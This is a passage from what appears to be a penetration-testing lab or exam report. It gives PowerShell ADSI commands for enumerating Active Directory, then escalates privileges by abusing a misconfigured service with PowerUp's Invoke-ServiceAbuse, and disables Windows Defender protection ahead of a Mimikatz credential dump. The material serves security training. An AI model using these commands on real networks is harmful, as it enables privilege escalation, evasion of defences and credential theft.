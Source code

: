 # Domain Enumeration
USER is a domain computer and we are authenticated with domain credentials. We can enumerate the 
domain using PowerShell ADSI.

All users
``` 
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectclass=user))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```
all domain computers
```
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectclass=computer))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```
domain trusts
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAl
lTrustRelationships()
```
users with SPN
```
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "
(&(!(samaccountname=krbtgt))(objectclass=user)(objectcategory=user)(servicePr
incipalName=*))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```

## Steps to compromise
Using an automated tool such as PowerUp1
, we can find misconfigurations such as service permissions 
or potentially hijackable DLL locations. Running Invoke-AllChecks will show us any vulnerabilities. As 
seen in the screenshot below we find a service named SensorDataService which has misconfigured 
permissions and our current user examAd can restart this service, allowing us to abuse it and add our 
user into the local Administrators group

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
Running The following Command will add our current user (examAp) to the local administrator group

```
Invoke-ServiceAbuse -Name 'SensorDataService' -Username 'test\examAd'
```
We can verify our user has been added the Administrators group
```
net localgroup Administrator
```
Once we have Administrative Privileges on USER, we run Invoke-Mimikatz to dump credentials. But first 
let’s disable Windows Defender.
```
Set-MpPreference -DisableIOAVProtection $true
```
